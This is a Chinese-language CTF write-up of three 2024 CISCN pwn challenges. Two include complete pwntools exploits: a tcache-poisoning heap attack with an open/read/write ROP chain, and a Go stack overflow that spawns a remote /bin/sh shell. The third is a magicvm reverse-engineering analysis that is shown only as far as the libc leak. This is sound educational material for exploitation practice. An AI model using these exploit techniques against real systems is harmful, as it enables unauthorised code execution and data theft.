

## 利用
### add
0x80 大小的 chunk；遍历挑一个没在用的。输入的 size < 0x501，malloc 之后按输入的 size 清零，再输入长度同样为该 size 的内容

### dele
指定一个 index 并检查是否存在，然后 free 并清零

### edit
指定一个 index 并检查是否存在，然后输入 size < 0x501，再往该 index 对应的 chunk 中输入 size 长度的内容——这里存在越界读

### show
指定一个 index 并检查是否存在，然后输出该 index 对应 chunk 的内容


## 思路
堆题开了沙箱时，会 malloc 和 free 一堆堆块，所以要仔细筛选

```c、
static uintptr_t tcache_key;

/* The value of tcache_key does not really have to be a cryptographically
   secure random number.  It only needs to be arbitrary enough so that it does
   not collide with values present in applications.  If a collision does happen
   consistently enough, it could cause a degradation in performance since the
   entire list is checked to check if the block indeed has been freed the
   second time.  The odds of this happening are exceedingly low though, about 1
   in 2^wordsize.  There is probably a higher chance of the performance
   degradation being due to a double free where the first free happened in a
   different thread; that's a case this check does not cover.  */
static void
tcache_key_initialize (void)
{
  if (__getrandom (&tcache_key, sizeof(tcache_key), GRND_NONBLOCK)
      != sizeof (tcache_key))
    {
      tcache_key = random_bits ();
#if __WORDSIZE == 64
      tcache_key = (tcache_key << 32) | random_bits ();
#endif
    }
}

tcache_put (mchunkptr chunk, size_t tc_idx)
{
  tcache_entry *e = (tcache_entry *) chunk2mem (chunk);

  /* Mark this chunk as "in the tcache" so the test in _int_free will
     detect a double free.  */
  e->key = tcache_key;

  e->next = PROTECT_PTR (&e->next, tcache->entries[tc_idx]);
  tcache->entries[tc_idx] = e;
  ++(tcache->counts[tc_idx]);
}

#define PROTECT_PTR(pos, ptr) \
  ((__typeof (ptr)) ((((size_t) pos) >> 12) ^ ((size_t) ptr)))
```

1. 存在一个没有上限的溢出。先布置三个 chunk；第二个 chunk 的大小在 largebin 范围内，后面用来溢出修改 chunk 结构以及泄漏 libc 地址
2. 释放第二个 chunk，然后溢出填充它，使得 show 第一个 chunk 时能泄漏第二个 chunk 的内容，从而获取 libc 地址
3. 溢出把第二个 chunk 的头部改回来，然后把第二个 chunk malloc 回来，再溢出修改第二个 chunk 的布局（把它拆成两个 chunk），使得靠近第一个 chunk 那部分的大小落在 tcachebin 范围内。再次 free 第二个 chunk，然后溢出填充，使得 show 第一个 chunk 时能泄漏第二个 chunk 的内容，从而获取堆地址。这里 next 指针是这个 chunk 下一部分的地址右移 12 位后与原来存放在该位置的堆地址做异或，但原来存放在那里的堆地址为零，所以结果就是这个 chunk 下一部分的地址右移 12 位——于是就泄漏出了堆地址
4. 然后再次溢出修改第二个 chunk 的头部，把第二个 chunk 申请回来，再次溢出把第二个 chunk 修改成两个 chunk 的布局，给靠近第一个 chunk 那部分选一个与 tcache 中已有的某个 chunk 大小相匹配的 size，然后释放第二个 chunk
5. 然后溢出填充第二个 chunk 的 fd 部分为 libc 中 environ 的地址，再 malloc 两次，用第二次拿到的 chunk 去 show，泄漏出栈地址，再计算出当前函数返回地址在栈上的地址
6. 然后溢出修改第二个 chunk 的布局，使得靠近第一个 chunk 那部分的大小能容纳 orw 的 ROP 链，然后把一个与靠近第一个 chunk 那部分大小相同的 chunk 释放进 tcache（可以用最开始的第三个 chunk，也可以 malloc 一个再 free 掉），然后释放第二个 chunk
7. 然后溢出把第二个 chunk 的 fd 修改为栈上返回地址的地址，再 malloc 两次，第二次修改栈上与返回地址相关的那部分
**具体细节见下面的 exp**
## exp

```c
from pwn import *

context(log_level='debug',arch='amd64',os='linux')
r=process("./pwn")
elf=ELF('./pwn')
libc=ELF('./libc.so.6')


def add_chunk(size,content):
    r.sendlineafter('>> ',b'1')
    r.sendlineafter(':',str(size))
    r.sendafter('content:',content)
def edit_chunk(id,size,content):
    r.sendlineafter('>> ',b'3')
    r.sendlineafter(':',str(id))
    r.sendlineafter(':',str(size))
    r.sendafter('content:',content)
def show_chunk(id):
    r.sendlineafter('>> ',b'4')
    r.sendlineafter(':',str(id))
def free_chunk(id):
    r.sendlineafter('>> ',b'2')
    r.sendlineafter(':\n',str(id))
add_chunk(0x1f8,'123')
add_chunk(0x4f0,'123')
add_chunk(0x1f8,'123')
free_chunk(1)
edit_chunk(0,0x200,'a'*0x200)
show_chunk(0)

r.recv(0x208)
addr=u64(r.recv(6).ljust(8,b"\x00"))
success("addr------------------------->"+str(hex(addr)))
libc_base=addr-0x21ace0
success('libc_base----------------->'+hex(libc_base))
libc.address=libc_base
bin_sh_addr=next(libc.search(b'/bin/sh\x00'))
system_addr=libc.sym['system']
free_hook_addr=libc.sym['__free_hook']
success("free_hook_addr-------------->"+str(hex(free_hook_addr)))


edit_chunk(0,0x200,b'a'*0x1f8+p64(0x501)) #之前为了泄漏libc地址被覆盖了，现在改回去
add_chunk(0x4f0,'123')
edit_chunk(0,0x340,b'a'*0x1f8+p64(0x101)+b'\x00'*0xf8+p64(0x401))
#prev_inuse位为1不会检查presize
#先放到fastbin和tcacahe的chunk也不会修改后面的chunk的prev_inuse和prevsize
# 原来的0x500堆块分成两部分，前一个大小使得其free后进入bin中fd指向一个堆

free_chunk(1)

edit_chunk(0,0x200,b'a'*0x200)
show_chunk(0)
r.recvuntil(b'a'*0x200)
heap_base=u64(r.recv(5)+b'\x00\x00\x00')<<12
success('heap_base---------------->'+hex(heap_base))

add_chunk(0xf0,'123')
#再申请回来
edit_chunk(0,0x240,b'a'*0x1f8+p64(0x21)+p64(0)+b'\x00'*0x10+p64(0x4e1))    
#修改为0x21的chunk和0x4e1的chunk
add_chunk(0x10,'123')
free_chunk(1)


edit_chunk(0,0x240,b'a'*0x1f8+p64(0x21)+p64((heap_base>>12)^(libc.sym['environ']-0x10))+b'\x00'*0x10+p64(0x4e1))    
#写next指针
add_chunk(0x10,'123')
add_chunk(0x10,b"a"*0x10)


#直接得到environ为数据部分的话增加chunk做不到不发发送内容
#得到environ环境变量libc地址为chunk地址的堆块
show_chunk(4)
r.recv(0x18)
stack_addr=u64(r.recv(6).ljust(8,b"\x00"))-0x170

#要修改的栈的起始地址，发现该地址没有对齐，所以后面作为fd时候，分配到的地址会减去8,正好可以先填./flag
success("stack_addr------------>"+str(hex(stack_addr)))
p1=b'./flag\x00\x00'


pop_rax_ret=next(libc.search(asm('pop rax;ret')))
pop_rdi_ret=next(libc.search(asm('pop rdi;ret')))
pop_rsi_ret=next(libc.search(asm('pop rsi;ret')))
pop_rdx_ret=next(libc.search(asm('pop rdx;pop rbx;ret')))
syscall_ret=next(libc.search(asm('syscall;ret')))

p1+=p64(pop_rdi_ret)+p64(stack_addr-0x8)
p1+=p64(pop_rsi_ret)+p64(0)
p1+=p64(pop_rax_ret)+p64(2)
p1+=p64(syscall_ret)
#open
p1+=p64(pop_rax_ret)+p64(0)
p1+=p64(pop_rdi_ret)+p64(3)
p1+=p64(pop_rdx_ret)+p64(0x30)*2 #合适的pop需要pop两次
p1+=p64(pop_rsi_ret)+p64(stack_addr-0x100)
p1+=p64(syscall_ret)
#read
p1+=p64(pop_rax_ret)+p64(1)
p1+=p64(pop_rdi_ret)+p64(1)
p1+=p64(pop_rsi_ret)+p64(stack_addr-0x100)
p1+=p64(syscall_ret)
#write
success("payload------------------------->"+hex(len(p1)))
edit_chunk(0,0x500,b'a'*0x1f8+p64(0x201)+p64(0)+b'\x00'*0x1f0+p64(0x301))
#再次将0x500分为0x200和0x300
free_chunk(2) 
#也是凑够tcache两个chunk
free_chunk(1)

edit_chunk(0,0x500,b'a'*0x1f8+p64(0x201)+p64((heap_base>>12)^(stack_addr-0x8))+b'\x00'*0x1f0+p64(0x301))
#修改为fd为栈上的地址
add_chunk(0x1f0,'123')

gdb.attach(r)
pause()

add_chunk(0x1f0,p1)

#布置rop

r.interactive()
```

## 结果



# 2024 cicsn gostack


## 思路
明显是栈溢出。尝试用二分法求出偏移量，然后构造 ROP 链。但如果偏移量的填充不是零字节，就会出现下面的错误
## 错误
"cap out of range"（容量超出范围），发生在尝试扩容一个 slice 的时候。Go 中的 slice 是一种动态数据结构，可以看作是对底层数组的一层封装，包含三个要素：指向数组的指针、长度和容量。当向 slice 追加元素导致容量不足时，Go 会自动尝试扩容 slice 的容量。但是，如果扩容操作导致新的容量超过了它所允许的最大值（通常是 `math.MaxInt32` 个元素），就会触发这个错误。

#### 报错原理

错误信息的关键部分是：
```
panic: runtime error: growslice: cap out of range
```
这意味着在运行时尝试扩容某个 slice 的容量时，请求的新容量超出了支持的范围。通常这是因为程序试图存储的数据量超过了 Go 能够有效处理的 slice 容量上限。

#### 具体场景分析

从错误堆栈可以看出，问题出现在 `fmt.Fprintf` 函数内部，具体是在字符串格式化与输出的过程中。错误从尝试向缓冲区写入一个非常长的字符串开始；这个操作内部会触发 slice 扩容，但由于字符串太长，扩容失败。

```
fmt.Fprintf({0x4df508, 0xc000010018}, {0x4c0995, 0x17}, {0xc000049ea8, 0x1, 0x1})
```

这里程序尝试格式化并输出一个非常长的字符串（你的输入），在构建输出缓冲区时遇到了容量限制。错误链中的函数调用——`fmt.(*buffer).writeString`、`fmt.(*fmt).padString`、`fmt.(*fmt).fmtS` 等——都与字符串处理和格式化输出有关。

#### 示例

假设你有一个简单的 Go 程序，其目的是读取用户输入并打印出来：

```go
package main

import (
	"fmt"
	"os"
)

func main() {
	var input string
	fmt.Println("Input your magic message:")
	fmt.Scanln(&input)
	fmt.Printf("Your magic message: %s\n", input)
}
```

当你输入一个非常长的字符串，比如数百万个字符时，程序在尝试通过 `fmt.Printf` 打印这个字符串时，可能会遇到上面的错误。这是因为内部的 `fmt.Printf` 会尝试构建一个缓冲区来容纳格式化后的字符串，如果字符串长度过大，导致所需的缓冲区容量超过了 Go 所能支持的最大值，就会触发 "cap out of range" 错误。

## exp

```python
from pwn import *
p=remote("8.147.129.254", 22350)#nc 8.147.129.254 22350
#p=process("./gostack")
#gdb.attach(p)
rdi=0x00000000004a18a5 #0x00000000004a18a5 : pop rdi ; pop r14 ; pop r13 ; pop r12 ; pop rbp ; pop rbx ; ret
rsi=0x000000000042138a#0x000000000042138a : pop rsi ; ret
rdx=0x00000000004944ec #0x00000000004944ec : pop rdx ; ret
rax=0x000000000040f984    #0x000000000040f984 : pop rax ; ret
syscall=0x0000000000461F65
bss=0x00000000005633A0
payload=b"\x00"*0x1d0+p64(rdi)+p64(0)+p64(0)+p64(0)+p64(0)+p64(0)+p64(0)+p64(rsi)+p64(bss)+p64(rdx)+p64(0x8)+p64(rax)+p64(0)+p64(syscall)
payload+=p64(rdi)+p64(bss)+p64(0)+p64(0)+p64(0)+p64(0)+p64(0)+p64(rsi)+p64(0)+p64(rdx)+p64(0)+p64(rax)+p64(0x3b)+p64(syscall)
#p.sendlineafter(b"Your magic message",payload)
p.sendlineafter(b"magic message :",payload)
p.send(b"/bin/sh\x00")
p.interactive()

```


# 2024 cicsn magicvm


## 参考资料
[https://forum.butian.net/share/3048](https://forum.butian.net/share/3048)
[https://akaieurus.github.io/2024/05/20/2024%E5%9B%BD%E8%B5%9B%E5%88%9D%E8%B5%9Bpwn-wp/#SuperHeap](https://akaieurus.github.io/2024/05/20/2024%E5%9B%BD%E8%B5%9B%E5%88%9D%E8%B5%9Bpwn-wp/#SuperHeap)
## 检查

## 逆向分析
### vm::run

```cpp
__int64 __fastcall vm::run(vm *my_vm)
{
  __int64 v1; // rax
  int v3; // [rsp+1Ch] [rbp-4h]

  while ( 1 )
  {
    vm_alu::set_input(my_vm->vm_alu, my_vm);
    vm_mem::set_input(my_vm->vm_mem, my_vm);
    my_vm->pc += (int)vm_id::run(my_vm->vm_id, my_vm);// 识别当前指令并返回长度
    v3 = vm_alu::run(my_vm->vm_alu, my_vm);     // 执行当前指令，得到临时结果
    vm_mem::run(my_vm->vm_mem);                 // 将结果转换到对应的位置中去
    if ( !v3 )
      break;
    if ( v3 == -1 )
    {
      v1 = std::operator<<<std::char_traits<char>>(&std::cout, "SOME STHING WRONG!!");
      std::ostream::operator<<(v1, &std::endl<char,std::char_traits<char>>);
      exit(0);
    }
  }
  return 0LL;
}
```
### vm::vm

```cpp
void __fastcall vm::vm(vm *my_vm)
{
  struct vm_id *vm_id; // rax
  struct vm_alu *vm_alu; // rax
  vm_mem *v3; // rax
  __int64 i; // rdx

  my_vm->code_base = mmap(0LL, 0x6000uLL, 3, 34, -1, 0LL);
  my_vm->data_base = my_vm->code_base + 0x2000LL;
  my_vm->stack_base = my_vm->data_base + 0x3000LL;
  my_vm->data_size = 0x3000LL;
  my_vm->code_size = 0x2000LL;
  my_vm->stack_size = 0x1000LL;
  vm_id = (struct vm_id *)operator new(0x28uLL);
  LODWORD(vm_id->isvalid_id) = 0;
  vm_id->opcode = 0LL;
  vm_id->optype = 0LL;
  vm_id->arg1 = 0LL;
  vm_id->arg2 = 0LL;
  my_vm->vm_id = vm_id;
  vm_alu = (struct vm_alu *)operator new(0x50uLL);
  *(_OWORD *)&vm_alu->isvali_id = 0LL;
  *(_OWORD *)&vm_alu->optype = 0LL;
  *(_OWORD *)&vm_alu->arg2 = 0LL;
  *(_OWORD *)&vm_alu->content_change_addr = 0LL;
  *(_OWORD *)&vm_alu->stack_ptr_addr = 0LL;
  my_vm->vm_alu = vm_alu;
  v3 = (vm_mem *)operator new(0x28uLL);
  v3->is_valid = 0;
  v3->value_to_addr_time = 0;
  for ( i = 0LL; ; ++i )
  {
    v3->val_to_ad[i].addr = 0LL;
    v3->val_to_ad[i].value = 0LL;
    if ( i == 1 )
      break;
  }
  my_vm->vm_mem = v3;
}
```
###  vm_alu::set_input

```cpp
vm_alu *__fastcall vm_alu::set_input(vm_alu *my_vm_alu, vm *my_vm)
{
  vm_id *vm_id; // rdx
  vm_alu *result; // rax
  __int64 opcode; // rbx
  __int64 arg1; // rbx

  vm_id = my_vm->vm_id;
  result = my_vm_alu;
  opcode = vm_id->opcode;
  my_vm_alu->isvali_id = vm_id->isvalid_id;
  my_vm_alu->opcode = opcode;
  arg1 = vm_id->arg1;
  my_vm_alu->optype = vm_id->optype;
  my_vm_alu->arg1 = arg1;
  my_vm_alu->arg2 = vm_id->arg2;
  return result;
}
```
### vm_mem::set_input

```cpp
vm_mem *__fastcall vm_mem::set_input(vm_mem *my_vm_men, vm *my_vm)
{
  vm_alu *vm_alu; // rdx
  vm_mem *result; // rax
  _QWORD *content_change_addr; // rbx
  _QWORD *stack_ptr_addr; // rbx

  vm_alu = my_vm->vm_alu;
  result = my_vm_men;
  content_change_addr = vm_alu->content_change_addr;
  *(_QWORD *)&my_vm_men->is_valid = *(_QWORD *)&vm_alu->isvalid_alu;
  my_vm_men->val_to_ad[0].addr = content_change_addr;
  stack_ptr_addr = vm_alu->stack_ptr_addr;
  my_vm_men->val_to_ad[0].value = vm_alu->alu_result;
  my_vm_men->val_to_ad[1].addr = stack_ptr_addr;
  my_vm_men->val_to_ad[1].value = vm_alu->stack_ptr_after_change;
  return result;
}
```
### vm_id::run

```cpp
__int64 __fastcall vm_id::run(vm_id *my_vm_id, vm *my_vm)
{
  char *my_vm_pc; // rax
  char *optype_pc_1; // rax
  int v4; // eax
  char *first_value_pc_1; // rax
  char *first_value_pc_2; // rax
  int v7; // eax
  char *optype_pc_2; // rax
  char opcode; // [rsp+18h] [rbp-18h]
  char optype; // [rsp+19h] [rbp-17h]
  char first_value; // [rsp+1Ah] [rbp-16h]
  char first_value_1; // [rsp+1Ah] [rbp-16h]
  char second_valuea; // [rsp+1Ah] [rbp-16h]
  char second_valueb; // [rsp+1Ah] [rbp-16h]
  char value1; // [rsp+1Ah] [rbp-16h]
  char optype_1; // [rsp+1Bh] [rbp-15h]
  unsigned int change_pc; // [rsp+1Ch] [rbp-14h]
  _BYTE *optype_pc; // [rsp+20h] [rbp-10h]
  char *arg_value_pc; // [rsp+20h] [rbp-10h]
  char *value1_pc; // [rsp+20h] [rbp-10h]

  my_vm_pc = (char *)(my_vm->code_base + my_vm->pc);// 指令位置指针，按字节识别
  optype_pc = my_vm_pc + 1;
  opcode = *my_vm_pc;
  change_pc = 1;
  if ( *my_vm_pc <= 0 || opcode > 8 )
  {
    if ( opcode <= 8 || opcode > 10 )
    {
      if ( opcode && opcode != 11 )
      {
        my_vm_id->opcode = -1LL;
      }
      else
      {
        my_vm_id->opcode = opcode;              // 11 nop指令
        my_vm_id->optype = 0LL;
        my_vm_id->arg1 = 0LL;
        my_vm_id->arg2 = 0LL;
      }
    }
    else
    {                                           // 9-10 push pop
      optype_pc_2 = my_vm_pc + 1;
      value1_pc = optype_pc + 1;
      optype_1 = *optype_pc_2;
      change_pc = 2;
      my_vm_id->optype = *optype_pc_2;
      if ( (optype_1 & 3) == 2 )                // value为reg的标号
      {
        change_pc = 3;
        value1 = *value1_pc;
        if ( vm_id::check_regs(my_vm_id, *value1_pc, my_vm) )// 检查标号是否小于等于3
        {
          my_vm_id->opcode = opcode;
          my_vm_id->arg1 = value1;
          my_vm_id->arg2 = 0LL;
        }
        else                                    // 否则标号越界，错误
        {
          my_vm_id->opcode = -1LL;
        }
      }
      else                                      //  optype只能为寄存器类型，否则错误
      {
        my_vm_id->opcode = -1LL;
      }
      if ( (my_vm->stack_ptr & 7LL) != 0 )      // 八对齐，否则错误
        my_vm_id->opcode = -1LL;
      if ( opcode == 9 )                        // stack_ptr从零开始，相对地址从stack_base
      {
        if ( my_vm->stack_ptr >= my_vm->stack_size || my_vm->stack_ptr <= 7uLL )
          my_vm_id->opcode = -1LL;              // push的话要判断stack_ptr还有多余的8可以减去，并且要在stack_size里面，从零开始
      }
      else if ( (unsigned __int64)(my_vm->stack_size - 8LL) < my_vm->stack_ptr )
      {                                         // pop的话判断stack_ptr+8不会超过stack_size上界
        my_vm_id->opcode = -1LL;
      }
    }
  }
  else                                          // 1-8
  {
    optype_pc_1 = my_vm_pc + 1;
    arg_value_pc = optype_pc + 1;
    optype = *optype_pc_1;
    change_pc = 2;
    my_vm_id->optype = *optype_pc_1;
    v4 = optype & 3;
    if ( v4 == 2 )                              // value是寄存器下标
    {
      change_pc = 3;
      first_value_pc_1 = arg_value_pc++;        // 杀千刀的，这里的值是＋之前的
      first_value = *first_value_pc_1;
      if ( vm_id::check_regs(my_vm_id, *first_value_pc_1, my_vm) )
      {
        my_vm_id->opcode = opcode;
        my_vm_id->arg1 = first_value;
      }
      else
      {
        my_vm_id->opcode = -1LL;
      }
    }
    else if ( v4 == 3 )                         // value也是寄存器下标，要检查寄存器中值是否超过地址界限
    {
      change_pc = 3;
      first_value_pc_2 = arg_value_pc++;
      first_value_1 = *first_value_pc_2;
      if ( vm_id::check_addr(my_vm_id, my_vm->regist[*first_value_pc_2], my_vm) )
      {
        my_vm_id->opcode = opcode;
        my_vm_id->arg1 = first_value_1;
      }
      else
      {
        my_vm_id->opcode = -1LL;
      }
    }
    else
    {
      my_vm_id->opcode = -1LL;
    }
    if ( my_vm_id->opcode != -1LL )
    {
      v7 = (optype >> 2) & 3;
      if ( v7 == 3 )
      {                                         // 参数是寄存器的下标
        ++change_pc;
        second_valueb = *arg_value_pc;
        if ( vm_id::check_addr(my_vm_id, my_vm->regist[*arg_value_pc], my_vm) )
          my_vm_id->arg2 = second_valueb;
        else
          my_vm_id->opcode = -1LL;
      }
      else
      {
        if ( ((optype >> 2) & 3u) > 3 )         // 类型大于3不存在
        {
LABEL_25:
          my_vm_id->opcode = -1LL;
          goto LABEL_45;
        }
        if ( v7 == 1 )                          // 参数是立即数
        {
          change_pc += 8;                       // pc要变化八个字节，八个字节存立即数
          my_vm_id->arg2 = *(_QWORD *)arg_value_pc;
        }
        else
        {
          if ( v7 != 2 )
            goto LABEL_25;
          ++change_pc;                          // 是寄存器
          second_valuea = *arg_value_pc;
          if ( vm_id::check_regs(my_vm_id, *arg_value_pc, my_vm) )
            my_vm_id->arg2 = second_valuea;
          else
            my_vm_id->opcode = -1LL;
        }
      }
    }
  }
LABEL_45:
  LODWORD(my_vm_id->isvalid_id) = 1;
  return change_pc;
}
```

```cpp
_BOOL8 __fastcall vm_id::check_regs(vm_id *this, unsigned __int64 a2, vm *a3)
{
  return a2 <= 3;
}
_BOOL8 __fastcall vm_id::check_addr(vm_id *this, unsigned __int64 a2, vm *a3)
{
  return a3->data_size - 8LL >= a2;             // 地址少八，是因为地址内容是包括后面的八个字节内容
}
```

###  vm_alu::run

```cpp
__int64 __fastcall vm_alu::run(vm_alu *my_vm_alu, vm *my_vm)
{
  __int64 arg2_type; // rax
  __int64 arg1_type; // rax
  unsigned __int64 opcode; // rax

  if ( !LODWORD(my_vm_alu->isvali_id) )
    return 1LL;
  if ( my_vm_alu->opcode && my_vm_alu->opcode <= 8uLL )
  {
    arg2_type = (my_vm_alu->optype >> 2) & 3LL;
    if ( arg2_type == 3 )
    {                                           // 参数为寄存器存的地址的值
      my_vm_alu->arg2 = *(_QWORD *)(my_vm->data_base + my_vm->regist[my_vm_alu->arg2]);
    }
    else if ( arg2_type != 1 )
    {
      if ( arg2_type != 2 )
        return 0xFFFFFFFFLL;
      my_vm_alu->arg2 = my_vm->regist[my_vm_alu->arg2];// 寄存器存的值
    }
    arg1_type = my_vm_alu->optype & 3LL;
    if ( arg1_type == 2 )
    {
      my_vm_alu->value_to_addr_time = 1;        // 只要修改一次地址的内容
      my_vm_alu->content_change_addr = &my_vm->regist[my_vm_alu->arg1];// 存储寄存器的值在vm结构体里的地址
      my_vm_alu->arg1 = my_vm->regist[my_vm_alu->arg1];
    }
    else
    {
      if ( arg1_type != 3 )
        return 0xFFFFFFFFLL;
      if ( (my_vm_alu->optype & 0xCLL) == 12 )
        return 0xFFFFFFFFLL;
      my_vm_alu->value_to_addr_time = 1;
      my_vm_alu->content_change_addr = (_QWORD *)(my_vm->data_base + my_vm->regist[my_vm_alu->arg1]);// 存储参数所在地址
      my_vm_alu->arg1 = *(_QWORD *)(my_vm->data_base + my_vm->regist[my_vm_alu->arg1]);// 存储地址的参数内容
    }
    switch ( my_vm_alu->opcode )
    {
      case 1LL:
        my_vm_alu->alu_result = my_vm_alu->arg2 + my_vm_alu->arg1;
        break;
      case 2LL:
        my_vm_alu->alu_result = my_vm_alu->arg1 - my_vm_alu->arg2;
        break;
      case 3LL:
        my_vm_alu->alu_result = my_vm_alu->arg1 << my_vm_alu->arg2;
        break;
      case 4LL:
        my_vm_alu->alu_result = my_vm_alu->arg1 >> my_vm_alu->arg2;
        break;
      case 5LL:
        my_vm_alu->alu_result = my_vm_alu->arg2;
        break;
      case 6LL:
        my_vm_alu->alu_result = my_vm_alu->arg2 & my_vm_alu->arg1;
        break;
      case 7LL:
        my_vm_alu->alu_result = my_vm_alu->arg2 | my_vm_alu->arg1;
        break;
      case 8LL:
        my_vm_alu->alu_result = my_vm_alu->arg2 ^ my_vm_alu->arg1;
        break;
      default:
        goto exit;
    }
    goto exit;
  }
  opcode = my_vm_alu->opcode;
  if ( opcode == 11 )
  {
    my_vm_alu->isvalid_alu = 0;
    return 1LL;
  }
  if ( opcode > 0xB )                           // 大于11无效opcode
    return 0xFFFFFFFFLL;
  if ( opcode == 10 )                           // pop
  {
    my_vm_alu->value_to_addr_time = 2;
    my_vm_alu->content_change_addr = &my_vm->regist[my_vm_alu->arg1];// 得到寄存器内容的地址，pop会修改寄存器
    my_vm_alu->alu_result = *(_QWORD *)(my_vm->stack_base + my_vm->stack_ptr);
    my_vm_alu->stack_ptr_addr = &my_vm->stack_ptr;
    my_vm_alu->stack_ptr_after_change = my_vm->stack_ptr + 8LL;
    goto exit;
  }
  if ( !opcode )
  {
    my_vm_alu->isvalid_alu = 0;
    return 0LL;
  }
  if ( opcode != 9 )
    return 0xFFFFFFFFLL;
  my_vm_alu->value_to_addr_time = 2;            // push
  my_vm_alu->content_change_addr = (_QWORD *)(my_vm->stack_base + my_vm->stack_ptr - 8LL);
  my_vm_alu->alu_result = my_vm->regist[my_vm_alu->arg1];
  my_vm_alu->stack_ptr_addr = &my_vm->stack_ptr;
  my_vm_alu->stack_ptr_after_change = my_vm->stack_ptr - 8LL;
exit:
  my_vm_alu->isvalid_alu = 1;
  return 1LL;
}
```
###  vm_mem::run

```cpp
__int64 __fastcall vm_mem::run(vm_mem *my_vm_men)
{
  __int64 result; // rax
  int i; // [rsp+1Ch] [rbp-4h]

  result = (unsigned int)my_vm_men->is_valid;   // alu是否成功执行
  if ( (_DWORD)result )
  {
    for ( i = 0; ; ++i )
    {
      result = (unsigned int)my_vm_men->value_to_addr_time;// 第一次赋值改变的寄存器
                                                // 第二次赋值改变栈地址
      if ( i >= (int)result )
        break;
      *my_vm_men->val_to_ad[i].addr = my_vm_men->val_to_ad[i].value;// 赋值
    }
  }
  return result;
}
```

## 漏洞
这里存在有依赖关系的延迟；每个结构体中的 isvalid 变量表示上一步是否已经执行完毕
分为三个阶段
- 解析得到 vid（存在检查：寄存器索引和寄存器中存放的内容，即访问地址，不能超过 data_size）
- 执行得到 alu
- 修改数值得到 mem

vid 与数值的修改不是即时发生的；如果在 vid 解析完成之后修改参数值（此时上一条指令执行到 mem 阶段），就能绕过 vid 中的参数检查
## 思路
- 通过寄存器实现任意地址写：将目标写入地址减去 database 的值后存入寄存器，再使用 mem 形式的 mov [register+database], value or register，将值写入任意地址
- 任意地址读也类似：将目标读取地址减去 database 的值后存入寄存器，再使用 mem 形式的 mov register, [register+database]，寄存器中就会保存目标地址处的内容


泄露 libc 地址

